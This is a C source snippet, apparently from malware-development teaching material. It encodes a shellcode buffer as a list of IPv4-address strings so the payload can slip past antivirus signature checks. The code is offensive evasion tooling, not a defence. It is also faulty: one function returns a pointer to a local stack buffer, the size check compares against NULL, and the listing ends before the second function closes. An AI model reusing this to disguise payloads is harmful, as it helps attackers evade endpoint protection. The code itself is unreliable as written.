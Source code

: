 ```
// Function takes in 4 raw bytes and returns them in an IPv4 string format
char* GenerateIpv4(int a, int b, int c, int d) {
	unsigned char Output [32];

	// Creating the IPv4 address and saving it to the 'Output' variable
	sprintf(Output, "%d.%d.%d.%d", a, b, c, d);

	// Optional: Print the 'Output' variable to the console
	// printf("[i] Output: %s\n", Output);

	return (char*)Output;
}


// Generate the IPv4 output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateIpv4Output(unsigned char* pShellcode, SIZE_T ShellcodeSize) {

	// If the shellcode buffer is null or the size is not a multiple of 4, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 4 != 0){
		return FALSE;
	}
	printf("char* Ipv4Array[%d] = { \n\t", (int)(ShellcodeSize / 4));

	// We will read one shellcode byte at a time, when the total is 4, begin generating the IPv4 address
	// The variable 'c' is used to store the number of bytes read. By default, starts at 4.
	int c = 4, counter = 0;
	char* IP = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {

		// Track the number of bytes read and when they reach 4 we enter this if statement to begin generating the IPv4 address
		if (c == 4) {
			counter++;

			// Generating the IPv4 address from 4 bytes which begin at i until [i + 3]
			IP = GenerateIpv4(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3]);

			if (i == ShellcodeSize - 4) {
				// Printing the last IPv4 address
				printf("\"%s\"", IP);
				break;
			}
			else {
				// Printing the IPv4 address
				printf("\"%s\", ", IP);
			}

			c = 1;

			// Optional: To beautify the output on the console
			if (counter % 8 == 0) {
				printf("\n\t");
			}
		}
		else {
			c++;
		}
	}
```